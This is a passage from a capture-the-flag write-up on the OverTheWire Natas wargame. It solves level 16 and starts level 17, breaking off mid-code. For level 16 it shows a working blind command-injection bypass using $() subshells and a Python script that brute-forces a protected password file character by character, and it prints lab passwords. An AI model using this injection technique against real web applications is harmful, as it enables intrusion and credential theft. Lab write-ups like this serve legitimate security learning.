 Try submitting `<letter> /etc/natas_webpass/natas16` like the trick used in level 10, but it returns nothing. Maybe it doesn't work in this level.

There's an obvious missing by the filter: `$()`.
![image](https://hackmd.io/_uploads/SyUM5st21e.png)
`$()` contains a command, this command is executed in a subshell. If it returns a value or something like that, the output is placed in the original command.
--> I can do something like:
`$(<command>)word` --> if the command returns an output, it is attached with the word --> this "new word" will not match with any word in the dictionary --> returns nothing.
On the other hand, if the command does not return an output, the word is still the word, after searching, some words appear.
--> I can brute-force each letter of the password, the value returned is 'true' or 'false'.
If this value is true, it will change the word --> there's nothing after searching. If it is false, there're results after searching.
Let's write a short Python script to do this task.
```python=
import requests
import string

username = "natas16"
password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

url = f"http://{username}.natas.labs.overthewire.org"

CHARSET = string.ascii_letters + string.digits
PASSWORD_LENGTH = 32

found_password = ""

for i in range(PASSWORD_LENGTH):
    for char in CHARSET:
        payload = f'$(grep ^{found_password}{char} /etc/natas_webpass/natas17)penetration'
        
        response = requests.get(url, auth=(username, password), params={"needle": payload})
        
        if ('penetration' not in response.text):
            found_password += char
            print(f"[+] Found character {i+1}: {char} --> {found_password}")
            break
        
print(found_password)
```
Password for level 17: **EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC**

## Level 17
![image](https://hackmd.io/_uploads/ryKYT3F2ke.png)
There's a form to check the existence of a username. 
Source code:
```php=
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

```